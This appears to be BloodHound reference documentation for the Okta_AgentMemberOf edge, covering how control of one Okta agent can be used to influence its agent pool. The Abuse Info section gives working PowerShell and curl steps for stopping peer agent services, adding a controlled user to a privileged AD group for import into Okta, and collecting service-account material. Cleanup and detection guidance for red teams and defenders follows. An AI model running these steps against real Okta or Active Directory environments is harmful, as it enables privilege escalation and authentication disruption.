

## General Information

Okta_AgentMemberOf edges represent membership of an Okta_Agent in an Okta_AgentPool.

Active Directory Agent Pools and their agents can be visualized in BloodHound as follows:


```mermaid
graph LR
    ap1("Okta_AgentPool contoso.com")
    ap2("Okta_AgentPool adatum.com")
    a1("Okta_Agent CONTOSO-SRV1")
    a2("Okta_Agent CONTOSO-SRV2")
    a3("Okta_Agent ADATUM-SRV1")
    a1 -- Okta_AgentMemberOf --> ap1
    a2 -- Okta_AgentMemberOf --> ap1
    a3 -- Okta_AgentMemberOf --> ap2
```

> [!NOTE]
> Traversable edges between Okta_AgentPool and AD Domain nodes are not modeled in the current version of the Okta BloodHound extension. Support for this is planned for a future release.

## Abuse Info

An attacker who controls the source Okta Agent can influence the destination agent pool because the source agent is one worker that Okta can use for the pool's on-premises integration traffic. For AD pools, this can affect delegated authentication, imports, provisioning, password sync, and membership sync. For other pool types, the impact depends on the connected system, such as LDAP, IWA, RADIUS, or another on-premises connector.

Control of a single agent is strongest when it is the only healthy member of the pool. In a multi-agent pool, the attacker may receive only a share of the pool's work unless they also control or disrupt peer agents, which is noisy and visible in agent health telemetry.

Using the Admin Console:

1. Sign in to the Okta Admin Console with an account that can view agents and directory integrations.
2. Open the org agent status view or the affected directory integration's agent view.
3. Identify the destination agent pool from the edge and list all agents in that pool.
4. Confirm whether the source agent is the only active member or one of several active members.
5. Follow `Okta_AgentPoolFor` to identify the backing directory integration or application served by the pool.
6. Review the integration's delegated authentication, import, password sync, and group sync settings to identify which Okta users or groups can be influenced through the pool.
7. From the controlled source agent host, tamper with the relevant source-system state, collect exposed service-account material, or disrupt peer agents to increase the chance that traffic flows through the controlled agent.
8. Trigger or wait for import, provisioning, or delegated authentication, then use the resulting `Okta_UserSync`, `Okta_MembershipSync`, `Okta_PasswordSync`, or app-assignment path.

Using the Okta API, agent hosts, and AD PowerShell:

1. Set variables for the destination pool, controlled source agent, and any AD-to-Okta change you plan to verify.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export AGENT_POOL_ID="0ap..."
    export CONTROLLED_AGENT_ID="0ag..."
    export TARGET_OKTA_GROUP_ID="00g..."
    export CONTROLLED_OKTA_USER_ID="00u..."
    ```

2. Enumerate the destination pool and its member agents.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/agentPools?limitPerPoolType=20" \
      | jq --arg pool "$AGENT_POOL_ID" '
          .[]
          | select(.id == $pool)
          | {
              id,
              name,
              type,
              operationalStatus,
              disruptedAgents,
              inactiveAgents,
              agents: ((.agents // [] | if type == "array" then . else [.] end)
                | map({
                    id,
                    name,
                    active,
                    operationalStatus,
                    lastConnection,
                    version,
                    poolId
                  }))
            }'
    ```

3. On the controlled source agent host, enumerate the local agent service and the account it runs as.

    ```powershell
    $ControlledAgentHost = "CONTOSO-SRV1"

    Invoke-Command -ComputerName $ControlledAgentHost -ScriptBlock {
      Get-CimInstance Win32_Service |
        Where-Object { $_.DisplayName -like "*Okta*Agent*" -or $_.Name -like "*Okta*" } |
        Select-Object Name, DisplayName, State, StartName, PathName
    }
    ```

4. If the path requires more pool traffic to hit the controlled agent and the operational noise is acceptable, stop peer agent services so Okta marks them inactive or disrupted and uses the remaining healthy agent.

    ```powershell
    $PeerAgentHosts = @("CONTOSO-SRV2", "CONTOSO-SRV3")

    Invoke-Command -ComputerName $PeerAgentHosts -ScriptBlock {
      Get-Service |
        Where-Object { $_.DisplayName -like "*Okta*Agent*" -or $_.Name -like "*Okta*" } |
        Stop-Service -Force
    }
    ```

5. Make the source-system change that the destination pool will import. For an AD pool, a common path is adding a controlled AD user to an imported AD group.

    ```powershell
    Import-Module ActiveDirectory

    $TargetAdGroupDn = "CN=Finance App Admins,OU=Groups,DC=contoso,DC=com"
    $ControlledAdUserDn = "CN=alice,OU=Users,DC=contoso,DC=com"

    Add-ADGroupMember -Identity $TargetAdGroupDn -Members $ControlledAdUserDn
    ```

6. After the pool imports the change, verify the linked Okta user reached the destination Okta group.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_OKTA_GROUP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.CONTROLLED_OKTA_USER_ID) | [.id, .profile.login, .status] | @tsv'
    ```

7. Re-authenticate as the linked Okta user or refresh tokens and sessions so the newly imported group, policy, or app assignment is evaluated.

## Cleanup after Abuse

Cleanup for `Okta_AgentMemberOf` means returning the controlled source agent and all peer agents in the destination pool to their legitimate state, reversing source-directory changes imported through the pool, rotating credentials exposed from the agent member, and verifying the pool is healthy.

Cleanup using Admin Console:

1. Open the org agent status view or the directory integration tied to the destination pool.
2. Confirm every legitimate pool member is active and that disrupted or inactive agent counts have returned to normal.
3. Restore the controlled source agent's service, registration state, local configuration, and file permissions.
4. Restart any peer agents that were stopped or degraded during the operation.
5. Rotate exposed AD, LDAP, RADIUS, IWA, or connector service-account credentials used by the pool.
6. Remove temporary source-directory changes, then run or wait for import/provisioning to converge.
7. Confirm synchronized users, groups, and delegated-auth behavior match the pre-operation state.

Cleanup using API:

1. Restart peer agents that were stopped to bias pool traffic.

    ```powershell
    $PeerAgentHosts = @("CONTOSO-SRV2", "CONTOSO-SRV3")

    Invoke-Command -ComputerName $PeerAgentHosts -ScriptBlock {
      Get-Service |
        Where-Object { $_.DisplayName -like "*Okta*Agent*" -or $_.Name -like "*Okta*" } |
        Start-Service

      Get-Service |
        Where-Object { $_.DisplayName -like "*Okta*Agent*" -or $_.Name -like "*Okta*" } |
        Select-Object MachineName, Name, DisplayName, Status
    }
    ```

2. Remove temporary AD group membership or source-directory state imported through the destination pool.

    ```powershell
    Import-Module ActiveDirectory

    $TargetAdGroupDn = "CN=Finance App Admins,OU=Groups,DC=contoso,DC=com"
    $ControlledAdUserDn = "CN=alice,OU=Users,DC=contoso,DC=com"

    Remove-ADGroupMember -Identity $TargetAdGroupDn -Members $ControlledAdUserDn -Confirm:$false
    ```

3. Rotate the directory connector service account if its password, token, Kerberos tickets, or local material were exposed from the controlled agent.

    ```powershell
    Import-Module ActiveDirectory

    $AgentServiceAccount = "OktaService"
    $NewPassword = Read-Host "New directory connector password" -AsSecureString

    Set-ADAccountPassword -Identity $AgentServiceAccount -Reset -NewPassword $NewPassword
    ```

4. Verify the destination pool and its agents have returned to the expected operational state.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/agentPools?limitPerPoolType=20" \
      | jq --arg pool "$AGENT_POOL_ID" '
          .[]
          | select(.id == $pool)
          | {
              id,
              name,
              type,
              operationalStatus,
              disruptedAgents,
              inactiveAgents,
              agents: ((.agents // [] | if type == "array" then . else [.] end)
                | map({id, name, active, operationalStatus, lastConnection}))
            }'
    ```

5. After import runs, verify the temporary Okta group membership is gone.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_OKTA_GROUP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.CONTROLLED_OKTA_USER_ID)'
    ```

6. Revoke sessions and OAuth tokens for any Okta user that used access gained through the pool.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$CONTROLLED_OKTA_USER_ID/sessions?oauthTokens=true"
    ```

## Opsec Considerations

Agent-pool abuse is visible at three layers. Okta exposes pool health changes through agent status, disrupted agent counts, inactive agent counts, import behavior, and delegated-auth outcomes. The controlled and peer hosts log service stops, restarts, remote logons, PowerShell activity, and file access. The connected directory logs the actual user, group, password, or authentication changes that the pool imports or validates.

Stopping peer agents to force traffic through a controlled source agent is especially noisy. It can produce obvious pool degradation, failed delegated-auth attempts, delayed imports, and Windows Service Control Manager events on several servers. A high-signal detection chain is an agent becoming inactive, followed by an AD group or password change, followed by `application.provision.user.sync`, `user.authentication.auth_via_AD_agent`, or new Okta sessions for the affected user.

## References

- [Okta Agent Pools API: List all agent pools](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/AgentPools/#tag/AgentPools/operation/listAgentPools)
- [Okta view org agents status](https://help.okta.com/oie/en-us/content/topics/dashboard/view-org-agent-status.htm)
- [Okta install multiple Active Directory agents](https://help.okta.com/oie/en-us/content/topics/directory/ad-agent-install-multiple.htm)
- [Okta service account permissions](https://help.okta.com/oie/en-us/content/topics/directory/ad-agent-about-service-account.htm)
- [Okta delegated authentication with Active Directory](https://help.okta.com/en-us/Content/Topics/Directory/Directory_AD_Delegated_Authentication.htm)
- [Okta User Sessions API: Revoke all user sessions](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserSessions/#tag/UserSessions/operation/revokeUserSessions)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [Microsoft Add-ADGroupMember](https://learn.microsoft.com/en-us/powershell/module/activedirectory/add-adgroupmember)
- [Microsoft Remove-ADGroupMember](https://learn.microsoft.com/en-us/powershell/module/activedirectory/remove-adgroupmember)
- [Microsoft Set-ADAccountPassword](https://learn.microsoft.com/en-us/powershell/module/activedirectory/set-adaccountpassword)
- [SpecterOps: Discovering Unexpected Okta Attack Paths with BloodHound](https://specterops.io/blog/2026/03/23/discovering-unexpected-okta-attack-paths-with-bloodhound/)
